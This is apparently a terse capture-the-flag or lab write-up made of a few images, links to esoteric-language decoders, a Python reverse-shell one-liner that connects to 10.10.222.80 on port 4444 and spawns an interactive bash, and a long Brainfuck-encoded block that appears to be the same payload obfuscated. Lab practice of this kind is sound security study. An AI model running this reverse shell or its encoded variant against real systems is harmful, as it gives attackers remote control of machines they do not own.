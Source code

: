 <p>https://www.dcode.fr/brainfuck-language</p>

<img width="631" height="368" alt="image" src="https://github.com/user-attachments/assets/ea8f9905-20ba-4a6c-9363-a7a1d2df408e" />

<h3>TargetIP</h3>

<img width="1055" height="554" alt="image" src="https://github.com/user-attachments/assets/10a080b0-0a81-4c4c-b402-729570e17ed4" />

```bash
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.222.80",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);
```

<p>https://stuff.splitbrain.org/ook/</p>

```bash
+++++ +++++ [->++ +++++ +++<] >++++ +++++ +++.+ +.--- ----- -.+++ ++.++
++++. <++++ ++++[ ->--- ----- <]>-- ----- ----- .---- --.<+ +++++ ++[->
+++++ +++<] >++++ +++.+ +++.+ ++.-. +++.+ +.<++ +++++ ++[-> ----- ----<
]>--- .<+++ +++++ +[->+ +++++ +++<] >++.- ---.< +++[- >---< ]>--- .++++
++++. ----- -.<++ +[->+ ++<]> +++++ +.<++ +++++ +[->- ----- --<]> -----
---.< +++++ +++[- >++++ ++++< ]>+++ ++++. ++.<+ +++[- >---- <]>-- -.<++
+[->+ ++<]> +++++ .++.- --.<+ ++[-> ---<] >---. ++.<+ ++[-> +++<] >++++
+..<+ +++++ ++[-> ----- ---<] >---- ---.< +++++ +++[- >++++ ++++< ]>+++
.++++ .<+++ ++++[ ->--- ----< ]>--- ----. <++++ +++[- >++++ +++<] >++++
+++.< +++++ ++[-> ----- --<]> ----- .<+++ ++++[ ->+++ ++++< ]>+++ ++.--
--.<+ ++[-> ---<] >---. +++++ +++.- ----- .<+++ [->++ +<]>+ +++++ .<+++
+++++ [->-- ----- -<]>- ----- .<+++ +++++ [->++ +++++ +<]>+ ++++. ----.
<+++[ ->--- <]>-- -.+++ +++++ .---- --.<+ ++[-> +++<] >++++ ++.<+ +++++
++[-> ----- ---<] >---- ----- ---.< +++++ +++[- >++++ ++++< ]>+++ +++++
+++.- ---.< +++[- >---< ]>--- .++++ ++++. ----- -.<++ +[->+ ++<]> +++++
+.<++ +++++ +[->- ----- --<]> ----- -.<++ ++[-> ++++< ]>+++ .++++ +.<++
+++[- >++++ +<]>. <++++ [->-- --<]> ----- -.+++ ++.-- ----- --.<+ ++[->
+++<] >++++ ++.<+ +++++ [->-- ----< ]>--- -.<++ +++++ +[->+ +++++ ++<]>
+++++ ++.-- --.<+ ++[-> ---<] >---. +++++ +++.- ----- .<+++ [->++ +<]>+
+++++ .<+++ +++++ [->-- ----- -<]>- ----- .<+++ +++[- >++++ ++<]> +.---
-.<++ +[->- --<]> ---.+ +++++ ++.<+ +++[- >++++ <]>++ ++.<+ ++[-> ---<]
>---. +.--. <+++[ ->--- <]>-- --.-- --.<+ ++[-> +++<] >+++. <++++ ++[->
----- -<]>. <++++ [->++ ++<]> ++.<+ +++++ +[->+ +++++ +<]>+ +++++ +.<++
+++++ +[->- ----- --<]> ----- .<+++ ++++[ ->+++ ++++< ]>+++ +.<++ +[->+
++<]> +++.- ..--- ----- -.--. <++++ [->++ ++<]> +.<++ +++++ +[->- -----
--<]> ----- ----- --..- ----- .<+++ [->++ +<]>+ +++++ .-.-- .+++. -.--.
++++. ..--- -.<++ +[->+ ++<]> +.--- ----- .<+++ [->-- -<]>- ----. <+++[
->+++ <]>+. +++++ +++.. ..<++ +[->- --<]> --..< ++++[ ->+++ +<]>+ +.<++
+++++ [->++ +++++ <]>++ +.+++ +.<++ +++++ +[->- ----- --<]> ----- .<+++
++++[ ->+++ ++++< ]>+++ ++.<+ +++[- >++++ <]>+. ----- .<+++ ++++[ ->---
----< ]>--- ----- ----- .<+++ [->-- -<]>- .<+++ +++++ [->++ +++++ +<]>+
+++++ +++++ .<+++ +++++ [->-- ----- -<]>- ----. <++++ +++[- >++++ +++<]
>++++ +++.+ ++.++ +.--- ----. +++++ ++++. +.<++ +++++ +[->- ----- --<]>
----- --.+. +++.+ +++.- ----- -.<++ ++[-> ++++< ]>++. <++++ +[->- ----<
]>--. <++++ ++++[ ->+++ +++++ <]>++ +++++ +++++ +++.+ +++.< +++++ +++[-
>---- ----< ]>--- --.<+ +++++ +[->+ +++++ +<]>+ ++++. <++++ [->++ ++<]>
+.--- --.<+ +++++ +[->- ----- -<]>- ----- ----- --.<+ ++[-> ---<] >-.<+
+++++ ++[-> +++++ +++<] >++++ +++++ ++.<+ +++++ ++[-> ----- ---<] >----
-.<++ +++++ [->++ +++++ <]>++ +++++ .+++. +++.- ----- -.+++ +++++ +.+.<
+++++ +++[- >---- ----< ]>--- ----. +.+++ .++++ +.--- ----- .<+++ +[->+
+++<] >++.< +++++ [->-- ---<] >--.< +++++ +++[- >++++ ++++< ]>+++ +++++
+++++ ++.++ ++.<+ +++++ ++[-> ----- ---<] >---- -.<++ +++++ [->++ +++++
<]>++ +++.< ++++[ ->+++ +<]>+ .---- -.<++ +++++ [->-- ----- <]>-- -----
----- -.<++ +[->- --<]> -.<++ +++++ +[->+ +++++ ++<]> +++++ +++++ +.<++
+++++ +[->- ----- --<]> ----- .<+++ ++++[ ->+++ ++++< ]>+++ ++++. +++.+
++.-- ----- .++++ +++++ .+.<+ +++++ ++[-> ----- ---<] >---- ---.+ .+++.
+++++ +.--- ----- -.<++ ++[-> ++++< ]>++. <++++ +++[- >++++ +++<] >++++
.<+++ ++++[ ->--- ----< ]>--. <++++ +++[- >++++ +++<] >++++ +.++. <++++
[->-- --<]> ---.< +++[- >+++< ]>+++ ++.++ .---. <+++[ ->--- <]>-- -.++.
```